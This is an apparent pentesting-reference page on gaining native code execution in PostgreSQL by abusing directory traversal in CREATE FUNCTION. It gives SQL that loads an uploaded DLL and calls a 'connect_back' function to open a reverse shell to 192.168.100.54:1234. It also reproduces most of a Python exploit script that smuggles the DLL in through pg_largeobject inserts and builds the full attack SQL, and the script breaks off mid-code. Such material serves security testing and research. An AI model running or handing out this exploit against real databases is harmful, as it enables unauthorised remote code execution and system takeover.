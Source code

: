 A significant vulnerability arises from the `CREATE FUNCTION` command, which **permits directory traversal** into the data directory. Consequently, an authenticated attacker could **exploit this traversal** to write a shared library file into the data directory and then **load it**. This exploit enables the attacker to execute arbitrary code, achieving native code execution on the system.

#### Attack flow

First of all you need to **use large objects to upload the dll**. You can see how to do that here:

{{#ref}}
big-binary-files-upload-postgresql.md
{{#endref}}

Once you have uploaded the extension (with the name of poc.dll for this example) to the data directory you can load it with:

```c
create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;
select connect_back('192.168.100.54', 1234);
```

_Note that you don't need to append the `.dll` extension as the create function will add it._

For more information **read the**[ **original publication here**](https://srcincite.io/blog/2020/06/26/sql-injection-double-uppercut-how-to-achieve-remote-code-execution-against-postgresql.html)**.**\
In that publication **this was the** [**code use to generate the postgres extension**](https://github.com/sourceincite/tools/blob/master/pgpwn.c) (_to learn how to compile a postgres extension read any of the previous versions_).\
In the same page this **exploit to automate** this technique was given:

```python
#!/usr/bin/env python3
import sys

if len(sys.argv) != 4:
    print("(+) usage %s <connectback> <port> <dll/so>" % sys.argv[0])
    print("(+) eg: %s 192.168.100.54 1234 si-x64-12.dll" % sys.argv[0])
    sys.exit(1)

host = sys.argv[1]
port = int(sys.argv[2])
lib = sys.argv[3]
with open(lib, "rb") as dll:
    d = dll.read()
sql = "select lo_import('C:/Windows/win.ini', 1337);"
for i in range(0, len(d)//2048):
    start = i * 2048
    end   = (i+1) * 2048
    if i == 0:
        sql += "update pg_largeobject set pageno=%d, data=decode('%s', 'hex') where loid=1337;" % (i, d[start:end].hex())
    else:
        sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % (i, d[start:end].hex())
if (len(d) % 2048) != 0:
    end   = (i+1) * 2048
    sql += "insert into pg_largeobject(loid, pageno, data) values (1337, %d, decode('%s', 'hex'));" % ((i+1), d[end:].hex())

sql += "select lo_export(1337, 'poc.dll');"
sql += "create function connect_back(text, integer) returns void as '../data/poc', 'connect_back' language C strict;"
sql += "select connect_back('%s', %d);" % (host, port)
print("(+) building poc.sql file")
with open("poc.sql", "w") as sqlfile:
```